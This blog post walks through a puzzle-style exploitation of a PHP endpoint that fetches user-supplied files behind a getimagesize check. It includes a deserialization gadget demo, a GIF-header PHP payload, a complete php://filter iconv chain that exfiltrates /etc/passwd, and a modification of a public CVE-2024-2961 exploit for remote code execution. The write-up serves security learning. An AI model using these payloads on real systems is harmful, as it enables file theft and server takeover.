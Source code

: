 ```yaml
---
title: Weekend Destroyed with PHP Streams
slug: weekend-destroyed-with-php-streams
date: 2025-01-27 11:13:44.000000000 -05:00
---
```


I was going to give this a different name but that would violate the terms of service of the inspiration of this post.  IYKYK. 

This weekend I was taken deep into the darkness that is serialization attacks, gadgets, and rce via iconv.  This was part of a puzzle of sorts.  It boiled down to a challenge to try to exploit the following:

```
<?php

$data = file_get_contents($_POST['file']);

if (!getimagesize($_POST['file_url'])) {
    die('bad file');
} else {
    file_put_contents("checkmeout.txt", $data);
?>
```

It was a little more complicated than this, but that's the crux of it.  At first glance it's clear that this is a problem because we're just retrieving whatever files the user gives us.  Things like '/etc/passwd/', '.env', 'wp-config.php', ... come to mind to try.  The problem is that in the next like getimagesize() is being used and it returns false if PHP doesn't detect it as a valid image file.  


<h2 class="bold text-2xl"> Attempt 1, Serialization Attack</h2>


Doing a bit of googling lead me to generating [a phar:// files to trigger deserialization](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8).  This would be great because I wouldn't have to worry about the if statement, my code would just execute.  The linked to article does an excellent job of breaking down the specifics but sadly that has all be patched in PHP 8. 

For posterity, the premise of a serialization attack relies on feeding vulnerable system an object in serialized format.  Then, that object is instantiated by deserializing it.  The goal is to find a 'gadget' which is a vulnerable class that has a constructor/destructor or __wakeup() that allows remote code execution.  

Consider the following example:

```
<?php

 class Vulnerable {
     public $command;

     function __destruct() {
            if ($this->command) {
                system($this->command);
            }
     }
 }

 if (!$argv[1]) {
     die("Usage: " . $argv[0] . " [serialized data]\n");
 }

 print_r(unserialize($argv[1]));

```

Under normal execution, it behaves innocently enough:

```
> php test.php 'a:1:{s:7:"success";b:1;}'
Array
(
    [success] => 1
)
```

But if we pass it an object:

```
> php test.php 'O:10:"Vulnerable":1:{s:7:"command";s:2:"id";}'
Vulnerable Object
(
    [command] => id
)
uid=501(jklem) gid=20(staff) groups=20(staff),101(access_bpf),12(everyone)......
```

Unfortunately none of that was relevant in this case, because the old phar:// deserialization was dead

<h2 class="bold text-2xl"> Attempt 2, Arbitrary File Inclusion</h2>


As the code sits, we actually can access any arbitrary image file we want.  So if we were somehow lucky and there was an apache/nginx vulnerability that worked with bad files or the likes, we would be in luck.  That also wasn't the case.  

Thankfully, digging deeper, we see that getimagesize() is a simple function that just parses the header of a file (and gets additional information, but the part that we care about is it has to have a good header).

Consider the following

```
<?php

 file_put_contents("test.img", "randomtext");

 if (getimagesize("test.img")) {
     echo "test.img identifies as an image\n";
 } else {
     echo "test.img does not identify as an image\n";
 }

 file_put_contents("test.img", "GIFimagedata");
 if (getimagesize("test.img")) {
     echo "test.img identifies as an image\n";
 } else {
     echo "test.img does not identify as an image\n";
 }
```

You'll notice that "GIFimagedata" is a valid image according to PHP.  According to [this list of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) it should be "GIF87a" and "GIF89a" but PHP is cool with just "GIF".

So this means that we can upload all sorts of items such as PHP scripts under the guise of being a GIF.  An example would included:

```
GIF89a
<?php
    system('id');
?>
```

However, this doesn't help us when the example is beign written to a .txt file.  Unless the web server is grossly misconfigured, we won't be able to execute any code that way.

<h2 class="bold text-2xl"> WrapWrap</h2>

Next we discover the excellent tool [WrapWrap](https://github.com/ambionics/wrapwrap?tab=readme-ov-file) and there's a deep dive into how it works that's written by the author [here](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix).

Thankfully this guy is much smarter than me.  The logic of using php filter streams makes sense.  And I could see if we could somehow get lucky and find something that the base64 encoded version starts with GIF we would be in business but the odds are low on that.  Instead, he also leverages iconv conversions to inject additional characters into the mix AFTER the file is retrieved.  There's also a writeup [here](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) about
the genesis of this technique and it relies on the fact that  convert.iconv.UTF8.CSISO2022KR will always prepend a specific set of characters.  And then through some various conversion magic and using base64 to remove characters, you can read a file and arbitrarily append and prepend any data you want with it. 

We were able to leverage `wrapwrap.py /etc/passwd 'GIF89a' '' 10000`.  That gave us this nugget:

```
php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd
```

This would fetch /etc/passwd and prepend our magic characters to it.  Viola!  We could trick the system into dumping any arbitrary file we had access to into the text file that we can then retrieve.

Unfortunate, we want RCE.  This would be a good vector if we could find a juicy config file though.

<h2 class="bold text-2xl"> iconv() CVE</h2>

Yet more lovely work by ambionics, there is an official writeup [here](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1) and more tooling available [on github](https://github.com/ambionics/cnext-exploits.git).

I'm still trying to wrap my head around the mechanics of it, but through some sorcery involving a buffer overflow in glibc the iconv api can be abused to cause remote code execution.  Scarily php filters and this cve can be combined to work even if loose file type verification is used.

In cnext-exploit.py you can modify line 60 to include the transformation from wrapwrap that you need:

```
 path = f"php://filter/convert.base64-encode/resource={path}"
```

becomes

```
    path = f"php://filter/convert.base64-encode|convert.iconv.855.UTF7|
    convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|
    convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|
    convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|
    convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|
    convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|
    convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|
    convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|
    convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource={path}"
```

Additionally, you'll want to clean up/remove any data that you had to prepend to the file for the rest of it to work.


<h2 class="bold text-2xl"> Done</h2>
Previously, we had to rely on actual inclusion of files to get execution.  This could be done through either somehow uploading a malicious file or possibly using log poisoning and then including the file.  However, with this, so long as we can arbitrarily include a file and then see that content, remote code execution is possible.

As mentioned, chasing down this particular puzzle ended up killing a weekend but during that time I learned a lot of scary things that can be done with poorly written PHP.  The key takeaway here is that you should NEVER trust user input and you should strive to make sure even the smallest thing is performed as securely as possible because you never know what can be chained together to become a big deal.


